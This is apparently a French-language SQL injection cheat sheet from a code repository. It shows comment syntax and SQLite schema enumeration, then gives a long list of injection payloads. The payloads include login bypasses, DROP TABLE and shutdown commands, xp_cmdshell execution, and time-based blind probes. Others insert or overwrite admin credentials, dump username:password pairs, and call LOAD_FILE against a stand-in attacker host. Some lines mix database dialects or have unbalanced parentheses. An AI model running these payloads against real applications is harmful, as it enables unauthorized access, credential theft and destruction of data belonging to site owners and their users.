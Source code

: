 ```sqlite
-- 
/**/
```
`--` Permet de mettre en commentaire tout ce qu'il le suit
`/**/` Permet de mettre en commentaire ce qui se trouve au mielieu

### SQlite version
```sqlite
select sqlite_version();
```

### BDD Structure
```sqlite
UNION SELECT sql FROM sqlite_master
UNION SELECT column_name FROM tab_name
```
Pour pouvoir se "balader" dans la BDD
Permet de voir comment sont ordonnés les tabs de la BDD
(A ne pas oublier d'adapter)

### "Injection Payload"
```sqlite
' OR '1'='1
' OR 1=1 --
' OR 1=1; --
' OR 1=1# 
'; DROP TABLE users; --
' AND 1=0 UNION ALL SELECT 'admin', '81dc9bdb52d04dc20036dbd8313ed055' --
' UNION ALL SELECT 'admin', '81dc9bdb52d04dc20036dbd8313ed055', '2' --
' AND (SELECT * FROM (SELECT(SLEEP(5)))a) --
' AND (SELECT * FROM (SELECT(SLEEP(5-(IF(1=1,1,0))))))a) --
' AND (SELECT * FROM (SELECT(SLEEP(5-(IF(1=2,1,0))))))a) --
';exec xp_cmdshell 'cmd.exe' --
';shutdown --
';INSERT INTO users (username, password) VALUES ('hacker', '81dc9bdb52d04dc20036dbd8313ed055') --
';UPDATE users SET password='81dc9bdb52d04dc20036dbd8313ed055' WHERE username='admin' --
' AND (SELECT LOAD_FILE('\\\\attacker.example.com\\file.txt')) --
' AND (SELECT * FROM users WHERE username LIKE 'A%') --
' AND (SELECT * FROM users WHERE username LIKE 'A%' AND 1=0 UNION ALL SELECT 'admin', '81dc9bdb52d04dc20036dbd8313ed055') --
' AND (SELECT * FROM users WHERE username='admin' AND password LIKE '81dc9bdb52d04dc20036dbd8313ed055%') --
' AND (SELECT * FROM users WHERE username='admin' AND password LIKE '81dc9bdb52d04dc20036dbd8313ed055%' AND 1=0 UNION ALL SELECT 'admin', '81dc9bdb52d04dc20036dbd8313ed055') --
' AND (SELECT * FROM users WHERE username='admin' AND password LIKE '81dc9bdb52d04dc20036dbd8313ed055%' AND 1=0 UNION ALL SELECT 'admin', '81dc9bdb52d04dc20036dbd8313ed055', '2') --
' AND 1=0 UNION ALL SELECT @@version --
' AND 1=0 UNION ALL SELECT @@datadir --
' AND 1=0 UNION ALL SELECT user() --
' AND 1=0 UNION ALL SELECT database() --
' AND 1=0 UNION ALL SELECT table_name FROM information_schema.tables --
' AND 1=0 UNION ALL SELECT column_name FROM information_schema.columns WHERE table_name='users' --
' AND 1=0 UNION ALL SELECT concat(username,':',password) FROM users --
' AND 1=0 UNION ALL SELECT concat_ws(':',username,password) FROM users --
' AND 1=0 UNION ALL SELECT group_concat(username,':',password) FROM users --
' AND 1=0 UNION ALL SELECT group_concat(username,':',password SEPARATOR ' | ') FROM users --
' AND 1=0 UNION ALL SELECT hex(group_concat(username,':',password SEPARATOR ' | ')) FROM users --
' AND 1=0 UNION ALL SELECT unhex(hex(group_concat(username,':',password SEPARATOR ' | '))) FROM users --
'-'
' '
'&'
'^'
```